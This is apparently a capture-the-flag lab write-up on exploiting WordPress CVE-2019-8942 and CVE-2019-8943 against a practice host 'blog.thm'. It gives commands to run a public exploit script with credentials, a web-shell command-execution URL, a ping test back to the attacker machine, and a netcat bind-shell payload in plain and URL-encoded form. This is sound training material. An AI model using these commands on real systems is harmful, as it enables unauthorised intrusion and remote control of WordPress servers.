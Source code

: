 > [!cite] NIST CVE-2019-8943
> WordPress through 5.0.3 allows Path Traversal in wp_crop_image(). An attacker (who has privileges to crop an image) can write the output image to an arbitrary directory via a filename containing two image extensions and ../ sequences, such as a filename ending with the .jpg?/../../file.jpg substring.

> [!cite] NIST CVE-2019-8942
> WordPress before 4.9.9 and 5.x before 5.0.1 allows remote code execution because an `wp_attached_file` Post Meta entry can be changed to an arbitrary string, such as one ending with a .jpg?file.php substring. An attacker with author privileges can execute arbitrary code by uploading a crafted image containing **PHP code in the Exif metadata**. Exploitation can leverage CVE-2019-8943.

In the research of vulnerabilities we found this
https://github.com/hadrian368
This is just an example image containing the php code on metadata
![Pasted image 20240926112923.png|400](/img/user/attachments/Pasted%20image%2020240926112923.png)
### Executing the exploit
Clone the repo and execute the exploit
```shell
git clone https://github.com/hadrian3689/wordpress_cropimage
cd wordpress_cropimage
python3 wp_rce.py -t http://blog.thm/ -u kwheel -p xxxxx -m twentytwenty
```
![Pasted image 20240926113743.png|600](/img/user/attachments/Pasted%20image%2020240926113743.png)
We can run commands on the system [[RCE\|RCE]]. We have to go the browser or BurpSuite and run the payload `http://blog.thm/rse.php?0=id`
We could don't have an output readable.
### Testing RCE (optional)
I tested if the [[RCE\|RCE]] is working.
On the attacker machine I set an `icmp` listener using `tcpdump`.
```shell
sudo tcpdump ip proto \\icmp -i tun0
```
![Pasted image 20240926114744.png|500](/img/user/attachments/Pasted%20image%2020240926114744.png)
On the victim machine, to send a ping (just 2 packets) to my machine, run
`http://blog.thm/rse.php?0=ping 10.6.2.59 -c 2/`
but to avoid problems the url encoded: 
`http://blog.thm/rse.php?0=ping+10.6.2.59+-c+2/`
![Pasted image 20240926115124.png|500](/img/user/attachments/Pasted%20image%2020240926115124.png)
Works, we effectively are executing commands on the system.
### Bind shell
After try some revershell with negative results, I decided execute an bind shell and works.
To run the nc as listener, on the browser or burpSuite go to
`http://blog.thm/rse.php?0=mkfifo /tmp/f; nc -lvnp 4949 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f/`
Url encoded.
`http://blog.thm/rse.php?0=mkfifo+/tmp/f%3b+nc+-lvnp+4949+<+/tmp/f+|+/bin/sh+>/tmp/f+2>%261%3b+rm+/tmp/f/`
Example on Burpsuite
![Pasted image 20241116145944.png](/img/user/attachments/Pasted%20image%2020241116145944.png)
Example on browser
![Pasted image 20241116175643.png](/img/user/attachments/Pasted%20image%2020241116175643.png)
